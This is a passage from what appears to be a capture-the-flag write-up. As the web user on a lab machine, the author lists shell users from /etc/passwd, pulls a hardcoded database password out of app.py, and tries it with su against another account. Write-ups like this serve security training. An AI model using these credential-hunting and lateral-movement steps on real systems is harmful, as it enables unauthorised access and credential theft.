 # Access as consuela

Looking at the users with shell (ends with sh), there is only one user called 'consuela' apart from root:

```bash
www-data@iclean:/opt/app$ cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
consuela:x:1000:1000:consuela:/home/consuela:/bin/bash
```

Also, in the app.py, to check the users it's using a SQL database:

```python
www-data@iclean:/opt/app$ cat app.py 
from flask import Flask, render_template, request, jsonify, make_response, session, redirect, url_for
from flask import render_template_string
import pymysql
import hashlib
import os
import random, string
import pyqrcode
from jinja2 import StrictUndefined
from io import BytesIO
import re, requests, base64

app = Flask(__name__)

app.config['SESSION_COOKIE_HTTPONLY'] = False

secret_key = ''.join(random.choice(string.ascii_lowercase) for i in range(64))
app.secret_key = secret_key
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}

<..SNIP..>
```

This password doesn't work with consuela:

```bash
www-data@iclean:/opt/app$ su consuela
Password: pxCsmnGLckUb
su: Authentication failure
```

But I can connect to the database:
